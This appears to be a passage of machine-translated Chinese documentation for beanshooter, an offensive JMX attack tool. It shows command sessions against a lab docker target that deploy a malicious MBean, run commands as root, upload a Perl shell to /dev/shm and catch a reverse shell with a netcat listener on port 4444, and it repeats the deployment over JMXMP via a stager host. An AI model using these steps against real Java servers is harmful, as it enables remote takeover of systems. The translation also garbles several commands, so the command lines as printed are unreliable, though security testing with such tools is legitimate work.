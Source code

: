 如果您部署了一个定制的恶意 *MBean* ，您现在可以直接从 *jconsole* 中调用您的 *MBean* 方法。虽然这对于 *tonka-bean* 也是可能的，但是 *beanshooter* 支持从命令行与 *tonka-bean* 交互的动作:

**[qtc @ kali ~]$ bean shooter–SSL 172 . 17 . 0 . 2 9010 execute id
[+]连接 JMX 服务器…
[+] RMI 对象尝试连接不同的远程主机:iinsecure.dev
[+]重定向连接回 172.17.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]发送命令' id '到服务器…
[+] Servers 答案是:uid = 0(root)GID = 0(root)groups = 0(root)**

您还可以使用 *shell* 动作，在一个(伪)命令 shell 中启动多个命令。外壳还包含包装 *beanshooter* 的`**upload**`、`**download**`和`**executeBackground**`动作的包装器:

**【qtc @ kali ~】$ bean shooter–SSL 172 . 17 . 0 . 2 9010 shell
[+]连接 JMX 服务器…
[+] RMI 对象尝试连接不同的远程主机:iinsecure.dev
[+]重定向连接回 172.17.0.2…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]启动交互 shell…
$ id
uid = 0(root)GID = 0(root)groups = 0(root)
$！上传~/www/shell . pl/dev/shm/s . pl
[+]文件上传完毕。170 字节写入/dev/shm/s.pl
$！后台 perl /dev/shm/s.pl
命令在后台执行。
$ exit
[qtc @ kali ~]$ NC-VLP 4444
Ncat:版本 7.80(https://nmap.org/ncat)
Ncat:监听 on :::4444
Ncat:监听 on 0.0.0.0:4444
Ncat:连接自 172.17.0.2。
Ncat:来自 172.17.0.2:37522 的连接。
id
uid = 0(root)GID = 0(root)groups = 0(root)**

一旦您完成了您的 *MBean* ，您应该确保取消部署您对服务器所做的所有更改。至少你应该从服务器上移除你的恶意 *MBean* ，但是如果 *MLet* 在你启动时不可用，你也应该移除 *MLet* 。 *beanshooter* 让清理变得相当容易，只需调用:

现在， *JMX* 端点应该再次被清理， *MLet* 和恶意的 *MBean* 应该被删除。

**JMXMP 支持**

*JMXMP* ( *JMX 消息协议*)只是访问 *JMX* 代理的一种替代方式(替代连接器)，在某些方面与上述基于 *Java RMI* 的访问不同。然而，对于这个工具来说，这些差异并不重要。重要的是, *JMXMP* 连接器也可以允许未经认证的连接，并且还可以在该连接器上使用 *MLet MBean* 。

在*中可以找到 *JMXMP* 连接器所需的类。jar* 文件名为 *jmxremote_optional.jar* 。可惜这个*。jar* 在 *Maven* 上已经没有自己的项目了(看起来它曾经是 *JMX* 项目的一个工件，但是由于某种原因被移除了)。现在，它可以作为其他项目的工件加载。 *beanshooter* 通过使用来自 *org.glassfish.external* 的 *jmxremote-optional* 工件来支持 *JMXMP* 协议。

为了测试 *JMXMP* 支持，提供的 docker-image 还在端口`**5555**`到**T1 上打开了多个 *JMXMP* 监听器。**下面的清单显示了与上面相同的例子，但是这次使用了 *JMXMP* 协议:

**【qtc @ kali ~】$ bean shooter–JMX MP–stager-host 172 . 17 . 0 . 1–stager-port 8080 172 . 17 . 0 . 2 5555 deploy all
[+]连接 JMX 服务器…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]为远程部署创建 MBean ' MLet'…完成！
[+]MBean“MLet”已经存在。
[+]
[+]恶意 Bean 似乎没有在服务器上注册
[+]开始注册过程
[+]在 172.17.0.1:8080
[+]为端点/mlet 创建 MLetHandler 完成！
[+]为端点/tonka-bean.jar 创建 JarHandler 完成！